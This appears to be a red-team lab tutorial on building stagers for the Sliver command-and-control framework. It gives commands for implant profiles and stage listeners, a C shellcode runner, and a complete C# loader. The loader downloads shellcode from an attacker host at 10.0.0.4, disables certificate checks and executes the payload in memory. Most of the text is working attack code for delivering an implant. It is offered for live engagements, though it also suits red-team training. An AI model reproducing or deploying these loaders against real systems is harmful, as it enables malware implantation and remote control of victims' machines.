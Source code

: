 # Stagers

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise we will create a new profile:

```
[server] sliver > profiles new -b **%%LINUX_IPADDRESS%%** --format shellcode --skip-symbols --debug profile1

[*] Saved new implant profile profile1
```

The profile should now be available when listing them using `profiles` command.

```
[server] sliver > profiles

 Profile Name   Implant Type   Platform        Command & Control       Debug   Format       Obfuscation   Limitations 
============== ============== =============== ======================= ======= ============ ============= =============
 profile1       session        windows/amd64   [1] https://10.0.0.4   true    EXECUTABLE   disabled
```

A stage listener linked to the profile can now be created that will host your executable.

```
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7200 --profile profile1

[*] No builds found for profile profile1, generating a new one
[*] Job 1 (http) started
```

Once thats done the stage listener will host the second stage payload on the URL when specifying a file with extension `.woff` . For example, by reaching out to: [http://localhost:7200/test.woff](http://localhost:7200/test.woff) you will see that it downloads the second stage payload.

## Metasploit

You can generate msfvenom shellcode to connect back to our stage listener and retrieve the second stage payload, however you’ll need to include the `--prepend-size` argument to the stage listener as Metasploit payloads require the length to be prepended to the stage. You can either kill the previous stage listener using the `jobs -k` command or run the stage listener on a different port:

```html
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7202 --profile profile1 --prepend-size

[*] Sliver name for profile: IDEAL_THRONE
[*] Job 2 (http) started
```

Once you have the stage listener setup with prepend size, you can generate the stager shellcode:

```bash
[server] sliver > generate stager --lhost **%%LINUX_IPADDRESS%%** --lport 7202 --protocol http --save /tmp --format c

[*] Sliver implant stager saved to: /tmp/HOLLOW_CHINO
```

Create a new file on the Linux box with the following contents and replace the `%%STAGE_SHELLCODE%%` field with the shellcode previously created:

```bash
#include "windows.h"

int main()
{
        unsigned char buf[] = **%%STAGE_SHELLCODE%%** ;
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();

    return 0;
}
```

Finally compile the payload.

```bash
x86_64-w64-mingw32-gcc -o stage.exe stager.c
```

Once the executable is copied over to a windows host and run you should see a session connect back to your host.

## Custom stager

You can also use a custom stager that just retrieves sliver shellcode directly and loads it in memory similarly to the previous stager.

```bash
using System;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(
           IntPtr lpAddress,
           uint dwSize,
           AllocationType flAllocationType,
           MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(
            IntPtr lpAddress,
            uint dwSize,
            MemoryProtection flNewProtect,
            out MemoryProtection lpflOldProtect);

        [DllImport("kernel32.dll")]
        public static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }

    static async Task Main(string[] args)
        {

            byte[] shellcode;

            using (var handler = new HttpClientHandler())
            {
                // ignore ssl, because self-signed
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    // Download the shellcode
                    shellcode = await client.GetByteArrayAsync("http://10.0.0.4:7200/whatever.woff");
                }
            }

            // Allocate a region of memory in this process as RW
            var baseAddress = VirtualAlloc(
                IntPtr.Zero,
                (uint)shellcode.Length,
                AllocationType.Commit | AllocationType.Reserve,
                MemoryProtection.ReadWrite);

            // Copy the shellcode into the memory region
            Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

            // Change memory region to RX
            VirtualProtect(
                baseAddress,
                (uint)shellcode.Length,
                MemoryProtection.ExecuteRead,
                out _);

            // Execute shellcode
            var hThread = CreateThread(
                IntPtr.Zero,
                0,
                baseAddress,
                IntPtr.Zero,
                0,
                out _);
            // Wait infinitely on this thread to stop the process exiting
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

## References

- [https://github.com/BishopFox/sliver/wiki/Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)
